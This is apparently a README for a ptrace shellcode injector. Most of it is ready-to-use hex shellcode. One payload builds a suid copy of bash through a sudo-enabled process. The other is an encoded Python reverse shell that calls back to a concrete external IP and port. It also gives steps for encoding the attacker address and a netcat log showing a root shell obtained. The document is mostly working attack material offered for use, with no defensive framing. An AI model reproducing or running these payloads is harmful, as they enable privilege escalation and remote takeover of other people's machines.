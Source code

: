 # drx_ptrace_shellcode_injector
drx ptrace shellcode injector

## How to compile

```
gcc -o drx drx.c
```

## How to use

You can inject some shellcodes:

### Default builtin hello world shellcode

./drx PID

```
./drx 4940
```

### bash suid local privilege escalation via ptrace misconfiguration

Based from: https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

Execute: /bin/sh -c "/bin/echo | /usr/bin/sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | /usr/bin/sudo -S /usr/bin/chmod +s /tmp/bash >/dev/null 2>&1`"

For a 32 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x02\x00\x00\x00\xcd\x80\x83\xf8\x00\x74\x2e\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x6a\x00\x89\xc3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\xbf\x00\x00\x00\x00\xb8\x72\x00\x00\x00\xcd\x80\xe9\xbd\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x8d\x0c\x24\x8b\x1c\x24\x31\xd2\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

For a 64 bit process:
```
./drx PID "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\xc5\x00\x00\x00\x6a\x00\xe8\x86\x00\x00\x00\x2f\x62\x69\x6e\x2f\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x63\x70\x20\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x2f\x74\x6d\x70\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x20\x26\x26\x20\x65\x63\x68\x6f\x20\x7c\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x20\x2d\x53\x20\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x62\x61\x73\x68\x20\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x32\x3e\x26\x31\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

### python reverse shell detached background: local privilege escalation via ptrace misconfiguration

https://github.com/David-Reguera-Garcia-Dreg/python_reverse_shell_detached_background/

Steps for **64 bit process**:

Generate IP str, for ex 51.195.45.136
```
export IP_ADDR=51.195.45.136
xxd -p <<< `printf '%02x' ${IP_ADDR//./ }`  | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x33\\x33\\x63\\x33\\x32\\x64\\x38\\x38

Generate PORT str, for ex 6868
```
xxd -p <<< 6868 | sed 's/.$//' | sed 's/.$//' | sed 's/\(..\)/\\\\x&/g; s/, $//;'
```
result: \\x36\\x38\\x36\\x38

Replace in this command the **IP_HEX** and **PORT_HEX** with the PORT STR & IP STR output:

echo -n "\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\xb8\\x39\\x00\\x00\\x00\\x0f\\x05\\x48\\x83\\xf8\\x00\\x74\\x25\\x48\\x89\\xc7\\xbe\\x00\\x00\\x00\\x00\\xba\\x00\\x00\\x00\\x00\\x41\\xba\\x00\\x00\\x00\\x00\\x41\\xb8\\x00\\x00\\x00\\x00\\xb8\\x3d\\x00\\x00\\x00\\x0f\\x05\\xe9\\x5f\\x02\\x00\\x00\\x6a\\x00\\xe8\\x0d\\x02\\x00\\x00\\x65\\x78\\x65\\x63\\x28\\x22\\x22\\x22\\x0a\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2c\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2c\\x6f\\x73\\x2c\\x73\\x79\\x73\\x0a\\x0a\\x70\\x69\\x64\\x72\\x67\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x70\\x69\\x64\\x72\\x67\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x63\\x68\\x64\\x69\\x72\\x28\\x22\\x2f\\x22\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x73\\x65\\x74\\x73\\x69\\x64\\x28\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x75\\x6d\\x61\\x73\\x6b\\x28\\x30\\x29\\x0a\\x0a\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3d\\x20\\x6f\\x73\\x2e\\x66\\x6f\\x72\\x6b\\x28\\x29\\x0a\\x69\\x66\\x20\\x64\\x72\\x67\\x70\\x69\\x64\\x20\\x3e\\x20\\x30\\x3a\\x0a\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x20\\x73\\x79\\x73\\x2e\\x65\\x78\\x69\\x74\\x28\\x30\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x2e\\x66\\x6c\\x75\\x73\\x68\\x28\\x29\\x0a\\x0a\\x66\\x64\\x72\\x65\\x67\\x20\\x3d\\x20\\x6f\\x70\\x65\\x6e\\x28\\x22\\x2f\\x64\\x65\\x76\\x2f\\x6e\\x75\\x6c\\x6c\\x22\\x2c\\x20\\x22\\x77\\x22\\x29\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x6f\\x75\\x74\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x79\\x73\\x2e\\x73\\x74\\x64\\x65\\x72\\x72\\x20\\x3d\\x20\\x66\\x64\\x72\\x65\\x67\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x3d\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x73\\x6f\\x63\\x6b\\x65\\x74\\x28\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x41\\x46\\x5f\\x49\\x4e\\x45\\x54\\x2c\\x73\\x6f\\x63\\x6b\\x65\\x74\\x2e\\x53\\x4f\\x43\\x4b\\x5f\\x53\\x54\\x52\\x45\\x41\\x4d\\x29\\x0a\\x0a\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x63\\x6f\\x6e\\x6e\\x65\\x63\\x74\\x28\\x28\\x73\\x74\\x72\\x28\\x30\\x78\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31\\x29\\x2c\\x39\\x39\\x39\\x39\\x29\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x30\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x31\\x29\\x0a\\x0a\\x6f\\x73\\x2e\\x64\\x75\\x70\\x32\\x28\\x73\\x64\\x72\\x65\\x67\\x73\\x2e\\x66\\x69\\x6c\\x65\\x6e\\x6f\\x28\\x29\\x2c\\x32\\x29\\x0a\\x0a\\x70\\x3d\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x2e\\x63\\x61\\x6c\\x6c\\x28\\x5b\\x22\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x22\\x2c\\x22\\x2d\\x69\\x22\\x5d\\x29\\x0a\\x22\\x22\\x22\\x29\\x00\\xe8\\x03\\x00\\x00\\x00\\x2d\\x63\\x00\\xe8\\x0c\\x00\\x00\\x00\\x2f\\x62\\x69\\x6e\\x2f\\x70\\x79\\x74\\x68\\x6f\\x6e\\x00\\x48\\x8d\\x05\\x21\\x00\\x00\\x00\\x50\\x48\\x31\\xd2\\x48\\x89\\xe6\\x48\\x8d\\x3d\\x13\\x00\\x00\\x00\\xb8\\x3b\\x00\\x00\\x00\\x0f\\x05\\xb8\\x3c\\x00\\x00\\x00\\xbb\\x00\\x00\\x00\\x00\\x0f\\x05\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x75\\x64\\x6f\\x00\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90" | sed 's/\\x39\\x39\\x39\\x39/**PORT_HEX**/g' | sed 's/\\x37\\x66\\x30\\x30\\x30\\x30\\x30\\x31/**IP_HEX**/g'

The output in  the last command is the generated shellcode

Now execute drx with target PID and the shellcode generated, ex with 6978 PID:

```
./drx 6978   "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xb8\x39\x00\x00\x00\x0f\x05\x48\x83\xf8\x00\x74\x25\x48\x89\xc7\xbe\x00\x00\x00\x00\xba\x00\x00\x00\x00\x41\xba\x00\x00\x00\x00\x41\xb8\x00\x00\x00\x00\xb8\x3d\x00\x00\x00\x0f\x05\xe9\x5f\x02\x00\x00\x6a\x00\xe8\x0d\x02\x00\x00\x65\x78\x65\x63\x28\x22\x22\x22\x0a\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x2c\x73\x79\x73\x0a\x0a\x70\x69\x64\x72\x67\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x70\x69\x64\x72\x67\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x6f\x73\x2e\x63\x68\x64\x69\x72\x28\x22\x2f\x22\x29\x0a\x0a\x6f\x73\x2e\x73\x65\x74\x73\x69\x64\x28\x29\x0a\x0a\x6f\x73\x2e\x75\x6d\x61\x73\x6b\x28\x30\x29\x0a\x0a\x64\x72\x67\x70\x69\x64\x20\x3d\x20\x6f\x73\x2e\x66\x6f\x72\x6b\x28\x29\x0a\x69\x66\x20\x64\x72\x67\x70\x69\x64\x20\x3e\x20\x30\x3a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x73\x79\x73\x2e\x65\x78\x69\x74\x28\x30\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x2e\x66\x6c\x75\x73\x68\x28\x29\x0a\x0a\x66\x64\x72\x65\x67\x20\x3d\x20\x6f\x70\x65\x6e\x28\x22\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x22\x2c\x20\x22\x77\x22\x29\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x6f\x75\x74\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x79\x73\x2e\x73\x74\x64\x65\x72\x72\x20\x3d\x20\x66\x64\x72\x65\x67\x0a\x0a\x73\x64\x72\x65\x67\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x0a\x0a\x73\x64\x72\x65\x67\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x73\x74\x72\x28\x30\x78\x33\x33\x63\x33\x32\x64\x38\x38\x29\x2c\x36\x38\x36\x38\x29\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x0a\x0a\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x64\x72\x65\x67\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x0a\x0a\x70\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x63\x61\x6c\x6c\x28\x5b\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x2c\x22\x2d\x69\x22\x5d\x29\x0a\x22\x22\x22\x29\x00\xe8\x03\x00\x00\x00\x2d\x63\x00\xe8\x0c\x00\x00\x00\x2f\x62\x69\x6e\x2f\x70\x79\x74\x68\x6f\x6e\x00\x48\x8d\x05\x21\x00\x00\x00\x50\x48\x31\xd2\x48\x89\xe6\x48\x8d\x3d\x13\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbb\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x75\x64\x6f\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```

And done, you get a root shell from a sudo shell user

```
dreg@51.195.45.136:~# nc -lvp 6868
listening on [any] 6868 ...
connect to [51.195.45.136] from fr33project.org [51.195.45.136] 38672
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```



